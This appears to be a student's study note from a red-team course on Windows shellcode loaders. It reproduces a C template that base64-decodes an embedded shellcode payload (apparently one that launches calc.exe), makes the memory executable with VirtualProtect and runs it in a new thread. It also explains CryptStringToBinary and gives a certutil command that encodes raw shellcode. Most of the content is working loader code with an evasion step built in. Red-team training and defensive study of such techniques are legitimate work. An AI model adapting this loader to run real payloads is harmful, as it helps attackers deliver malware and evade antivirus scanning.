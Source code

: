 

Code snippet
```c
/*

 Red Team Operator course code template
 payload encoding with base64

 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
unsigned int calc_len = sizeof(calc_payload);


int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	
	// Allocate new memory buffer for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decode the payload back to binary form
	DecodeBase64((const BYTE *)calc_payload, calc_len, (char *) exec_mem, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, execute!
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```


---

#### Key Windows API functions

Windows API provides functions to encode and decode Base64 data. Two common functions for this purpose are `CryptBinaryToString()` and `CryptStringToBinary()`, which are part of the Cryptography API.

[**_CryptStringToBinary()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptstringtobinarya) converts a formatted string into an array of bytes. This function can be found in the _crypt32.dll_ library.

`CryptStringToBinary()` function has the following prototype:

```c
BOOL CryptStringToBinary(
  LPCSTR pszString,  // pointer to a string that contains the formatted string to be converted.
  DWORD  cchString,  // number of characters of the formatted string to be converted, not including the terminating NULL
  DWORD  dwFlags,    // indicates the format of the string to be converted, ex. CRYPT_STRING_BASE64, CRYPT_STRING_HEXASCII, CRYPT_STRING_BINARY, etc.
  BYTE   *pbBinary,  // pointer to a buffer that receives the returned sequence of bytes
  DWORD  *pcbBinary, // pointer to a variable which on entry contains the size of the pbBinary (in bytes). After return, it contains the number of bytes copied to the buffer
  DWORD  *pdwSkip,   // pointer to a value that receives the number of characters skipped to reach the beginning of the -----BEGIN ...----- header
  DWORD  *pdwFlags   // pointer to a value that receives the flags actually used in the conversion. Can be NULL (skipped)
);
```

 **Return value**

If the function succeeds, the return value is nonzero (`TRUE`). Otherwise, the return value is zero (`FALSE`).

##### External Resources

[Base64 Encode and Decode in C](https://nachtimwald.com/2017/11/18/base64-encode-and-decode-in-c/)


---

#### Base64 Decoder Function using CryptStringToBinary

```c
int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}
```

- `BYTE` on Windows is `typedef unsigned char BYTE;`
- `calc_payload` is declared `unsigned char calc_payload[] = "..."`; that is _exactly_ compatible with `BYTE[]`, so **no cast is strictly necessary** in plain C when passing `calc_payload` to a parameter of type `const BYTE *`
- The `const` part expresses intent: the function promises **not to modify** the source buffer. That’s good practice.
  
  - `VirtualAlloc` returns a `void *` (`exec_mem`). In C, a `void *` can be passed to any object pointer _without_ a cast — but many developers still cast it explicitly (e.g. `(char *)exec_mem`) to make the conversion obvious or to avoid warnings when compiling as C++.

---

#### B64 conversion

Base64 encode bin shellcode
```powershell
certutil -encode calc.bin calc.b64
```

